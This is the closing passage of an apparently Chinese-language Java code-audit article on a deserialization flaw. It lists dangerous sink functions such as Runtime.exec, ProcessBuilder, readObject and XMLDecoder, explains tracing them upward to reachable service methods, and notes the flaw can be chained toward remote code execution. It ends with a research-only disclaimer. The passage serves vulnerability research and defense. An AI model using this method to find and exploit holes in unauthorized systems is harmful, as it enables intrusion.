ProcessBuilder
new ProcessBuilder
exec(
Process#waitFor
FileOutputStream
FileWriter
Files.write(
delete()
ObjectInputStream
readObject(
XMLDecoder
URLClassLoader
Class.forName(
Method.invoke(
getRuntime().exec
PreparedStatement.execute
Statement.execute
Runtime.exec(
```

这一部分是危险函数，如果找到它了，那就可能有危险点，再往上使用上面的命令一层一层寻找，直到最顶上的service，那就是我们可以调用的危险函数了。

如果想要快速发现此类漏洞，收集上面存在可控变量的工具方法，看有哪些可以带入参数，再一层一层上去寻找，就能快速发现此类漏洞了。

# 5、总结

该漏洞最大的利用点在于对反序列化对象，可以利用该漏洞，配合其余漏洞造成RCE，不止我上面罗列出来的两条，还有更多的利用路线。

**本文内容仅用于技术研究与防御，请勿用于非法用途。使用者需获得目标系统授权并在安全环境进行测试。滥用本文信息产生的后果由使用者自负，与本人无关**
